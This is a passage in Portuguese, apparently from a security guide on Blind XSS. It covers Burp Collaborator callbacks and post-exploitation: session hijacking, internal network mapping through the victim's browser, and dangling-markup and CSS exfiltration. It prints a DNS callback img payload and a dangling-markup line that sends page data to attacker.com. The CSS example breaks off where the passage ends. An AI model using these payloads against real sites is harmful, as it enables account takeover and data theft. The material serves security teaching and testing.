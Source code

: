 ### Alternative Tooling: Burp Collaborator

Embora o *XSS Hunter* seja especializado em XSS, o *Burp Collaborator*, uma ferramenta central do *Burp Suite Professional*, é um servidor OAST de propósito geral extremamente poderoso que também pode ser usado para detectar *Blind XSS*.

**Functionality**: O *Burp Collaborator* gera subdomínios únicos que podem ser inseridos em *payloads*. Ele monitora interações com esses domínios e reporta qualquer atividade de volta para o *Burp Suite*. É frequentemente usado para detectar *Blind SQL Injection* e *Server-Side Request Forgery* (SSRF), mas é igualmente eficaz para *Blind XSS*.

**Beyond HTTP**: Uma vantagem chave do *Burp Collaborator* é sua capacidade de detectar interações em múltiplos protocolos, incluindo DNS e SMTP. Um atacante pode criar um *payload* que não faz uma requisição HTTP de saída, mas sim uma consulta DNS para um subdomínio único do *Collaborator* (por exemplo, `<img src="//<unique-id>.burpcollaborator.net">`). As consultas DNS são frequentemente menos filtradas por *firewalls* corporativos do que o tráfego HTTP de saída para domínios desconhecidos, tornando este um mecanismo de *callback* mais resiliente e furtivo.

## V. Impact Analysis and Post-Exploitation Scenarios

Receber um *callback* de *Blind XSS* bem-sucedido não é o fim do ataque, mas sim o começo. A confirmação da execução do *payload* valida que o atacante obteve um ponto de apoio dentro de um ambiente privilegiado. A partir daqui, uma série de cenários de pós-exploração se tornam possíveis, elevando o impacto da vulnerabilidade de moderado para crítico.

### Session Hijacking and Account Takeover

O impacto mais imediato e devastador é o sequestro de sessão. Os dados exfiltrados pelo *payload* do *XSS Hunter* incluem todos os *cookies* não marcados como *HttpOnly*. Se o *cookie* de sessão de um administrador ou agente de suporte for capturado, o atacante pode simplesmente injetá-lo em seu próprio navegador para se passar por aquele usuário, obtendo controle total sobre sua conta dentro da aplicação interna. Isso concede ao atacante as mesmas permissões que o usuário comprometido, permitindo-lhe visualizar dados sensíveis, modificar configurações ou executar funções administrativas.

### Internal Reconnaissance and Network Mapping

Com o controle sobre o navegador da vítima, o atacante pode usá-lo como um *proxy* para explorar a rede interna da organização. O *script* em execução no navegador da vítima opera dentro do perímetro de segurança da empresa e sob uma sessão autenticada.

O atacante pode instruir o navegador comprometido a fazer requisições para outros servidores e aplicações internas (por exemplo, `intranet.company.com`, `jira.company.local`). Ao analisar as respostas (ou a falta delas), o atacante pode mapear a topologia da rede interna, descobrir serviços e identificar novos alvos. Essa técnica contorna completamente as defesas de perímetro, como *firewalls*, que são projetadas para bloquear o acesso direto de fora da rede. O tráfego parece originar-se de um usuário interno legítimo.

### Targeted Data Exfiltration

Além do despejo inicial de dados do *XSS Hunter*, o atacante pode implantar *payloads* secundários para exfiltrar informações específicas e de alto valor.

**Dangling Markup Injection**: Em cenários onde um XSS completo é difícil, mas a injeção de HTML é possível, a injeção de *markup* "pendurado" é uma técnica eficaz para roubo de dados. O atacante injeta uma *tag* de imagem incompleta, como `<img src='//attacker.com?data=`. O navegador, ao tentar analisar este HTML, irá avidamente consumir todo o conteúdo subsequente da página até encontrar a próxima aspa simples, anexando-o à URL do `src`. Este conteúdo, que pode incluir *tokens* CSRF, dados pessoais ou informações financeiras, é então enviado para o servidor do atacante como parte da *query string* da imagem.

**CSS-Based Exfiltration**: Em ambientes extremamente restritivos, onde uma *Content Security Policy* (CSP) forte bloqueia a execução de *scripts* e requisições de rede para domínios não autorizados, ainda é possível exfiltrar dados. Esta técnica explora seletores de atributos CSS. O atacante injeta uma folha de estilo com regras que fazem uma requisição de *background* para seu servidor se um atributo de um elemento começar com um determinado caractere. Por exemplo:
